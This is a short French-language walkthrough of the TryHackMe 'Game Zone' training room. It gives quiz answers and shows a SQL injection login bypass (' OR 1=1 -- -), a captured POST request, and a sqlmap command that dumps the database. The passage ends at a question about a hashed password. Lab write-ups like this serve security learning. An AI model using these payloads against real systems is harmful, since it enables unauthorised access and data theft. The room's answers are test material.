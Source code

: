 # Game Zone
> Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

https://tryhackme.com/room/gamezone


10.10.84.238



Hitman => https://en.wikipedia.org/wiki/Agent_47

> Réponse : **agent 47**

## Test injection SQL  sur le login/password 

```
' OR 1=1
```
=> failed

```
' OR 1=1 -- -
```

=> OK

> Réponse : **portal.php**

## SQLMap

Récupération de la requete HTTP de recherche via Burpsuite

```
POST /portal.php HTTP/1.1
Host: 10.10.74.121
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.74.121/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close
Cookie: PHPSESSID=vabciqtup7h0sokh1mm2l3jnp5
Upgrade-Insecure-Requests: 1

searchitem=test
```

```sh
sqlmap -r request.txt --dbms=mysql --dump
```

### #1 In the users table, what is the hashed password?
